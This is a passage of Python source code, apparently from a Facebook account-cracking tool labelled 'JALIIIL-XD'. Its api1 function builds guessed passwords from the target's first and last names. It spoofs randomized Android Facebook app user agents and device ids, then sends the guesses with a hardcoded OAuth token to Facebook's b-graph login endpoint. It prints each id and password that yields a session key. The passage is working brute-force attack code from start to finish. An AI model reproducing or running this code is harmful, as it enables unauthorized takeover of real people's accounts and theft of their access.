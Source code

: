                         time.sleep(10)
                except Exception as e:
                        pass
def api1(ids,names,passlist):
                try:
                        global ok,loop
                        sys.stdout.write('\r\r\033[1;37m [JALIIIL-XD] %s|\033[1;32mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
                        fn = names.split(' ')[0]
                        try:
                                ln = names.split(' ')[1]
                        except:
                                ln = fn
                        for pw in passlist:
                                pas = pw.replace('first',fn.lower()).replace('First',fn).replace('last',ln.lower()).replace('Last',ln).replace('Name',names).replace('name',names.lower())
                                application_version = str(random.randint(111,555))+'.0.0.'+str(random.randrange(9,49))+str(random.randint(111,555))
                                application_version_code=str(random.randint(000000000,999999999))
                                fbs=random.choice(fbks)
                                gtt=random.choice(xxxxx)
                                gttt=random.choice(xxxxx)
                                android_version=str(random.randrange(6,13))
                                ua_string = f'Davik/2.1.0 (Linux; U; Android {str(android_version)}.0.0; {str(gtt)} Build/{str(gttt)} [FBAN/FB4A;FBAV/{str(application_version)};FBBV/{str(application_version_code)};FBDM/'+'{density=2.0,width=720,height=1280};'+f'FBLC/es_CU;FBRV/{str(application_version_code)};FBCR/Movistar;FBMF/samsung;FBBD/samsung;FBPN/{str(fbs)};FBDV/{str(gtt)};FBSV/7.0;FBOP/1;FBCA/armeabi-v7a:armeabi;]'
                                device_id = str(uuid.uuid4())
                                adid = str(uuid.uuid4())
                                data = {'adid':adid,
                                        'email':ids,
                                        'password':pas,
                                        'cpl':'true',
                                        'credentials_type':'device_based_login_password',
                                        "source": "device_based_login",
                                        'error_detail_type':'button_with_disabled',
                                        'source':'login','format':'json',
                                        'generate_session_cookies':'1',
                                        'generate_analytics_claim':'1',
                                        'generate_machine_id':'1',
                                        "locale":"es_CU","client_country_code":"CU",
                                        'device':gtt,
                                        'device_id':adid,
                                        "method": "auth.login",
                                        "fb_api_req_friendly_name": "authenticate",
                                        "fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler"}
                                head = {
                                        'content-type':'application/x-www-form-urlencoded',
                                        'x-fb-sim-hni':str(random.randint(2e4,4e4)),
                                        'x-fb-connection-type':'unknown',
                                        'Authorization':'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32',
                                        'user-agent':ua_string,
                                        'x-fb-net-hni':str(random.randint(2e4,4e4)),
                                        'x-fb-connection-bandwidth':str(random.randint(2e7,3e7)),
                                        'x-fb-connection-quality':'EXCELLENT',
                                        'x-fb-friendly-name':'authenticate',
                                        'accept-encoding':'gzip, deflate',
                                        'x-fb-http-engine':     'Liger'}
                                url = 'https://b-graph.facebook.com/auth/login?include_headers=false&decode_body_json=false&streamable_json_response=true'
                                po = requests.post(url,data=data,headers=head,allow_redirects=False).text
                                q = json.loads(po)
                                if 'session_key' in q:
                                        print('\r\r\033[1;32m [BHT-OK] '+ids+' | '+pas+'\033[1;97m')